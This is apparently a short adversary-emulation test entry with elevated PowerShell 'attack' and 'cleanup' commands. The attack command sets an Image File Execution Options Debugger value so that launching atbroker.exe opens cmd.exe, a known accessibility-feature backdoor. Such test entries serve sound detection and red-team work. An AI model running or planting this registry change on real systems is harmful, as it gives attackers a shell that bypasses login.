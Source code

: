 
#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\atbroker.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
IF(!(Test-Path $registryPath))
 {
  New-Item -Path $registryPath -Force | Out-Null
  New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType DWORD -Force
 }
ELSE
 {
  New-ItemProperty -Path $registryPath -Name $name -Value $Value
 }
```

#### Cleanup Commands:
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\atbroker.exe" /v Debugger /f
```





<br/>
